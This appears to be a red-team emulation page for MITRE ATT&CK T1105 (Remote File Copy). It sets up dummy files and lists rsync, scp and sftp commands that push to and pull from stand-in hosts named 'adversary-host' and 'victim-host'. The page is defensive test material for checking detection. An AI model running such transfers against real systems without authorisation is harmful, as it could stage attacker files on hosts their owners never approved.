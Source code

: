 # Remote File Copy

MITRE ATT&CK Technique: [T1105](https://attack.mitre.org/wiki/Technique/T1105)

## Adversary System Configuration
### Ensure SSH access has been configured for an adversary account
    echo "This file transferred by scp" > /tmp/adversary-scp
    echo "This file transferred by sftp" > /tmp/adversary-sftp
    mkdir /tmp/adversary-rsync
    cd /tmp/adversary-rsync
    touch a b c d e f g

## Victim System Configuration
### Ensure SSH access has been configured for a victim account
### Ensure write access for victim account to this directory
    mkdir /tmp/victim-files
    cd /tmp/victim-files

## Push files to victim using rsync
    rsync -r /tmp/adversary-rsync/ victim@victim-host:/tmp/victim-files/

## Pull files from adversary using rsync
    rsync -r adversary@adversary-host:/tmp/adversary-rsync/ /tmp/victim-files/

## Push files to victim using scp
    scp /tmp/adversary-scp victim@victim-host:/tmp/victim-files/

## Pull file from adversary using scp
    scp adversary@adversary-host:/tmp/adversary-scp /tmp/victim-files/scp-file

## Push files to victim using sftp
    sftp victim@victim-host:/tmp/victim-files/ <<< $'put /tmp/adversary-sftp'

## Pull file from adversary using sftp
    sftp adversary@adversary-host:/tmp/adversary-sftp /tmp/victim-files/sftp-file
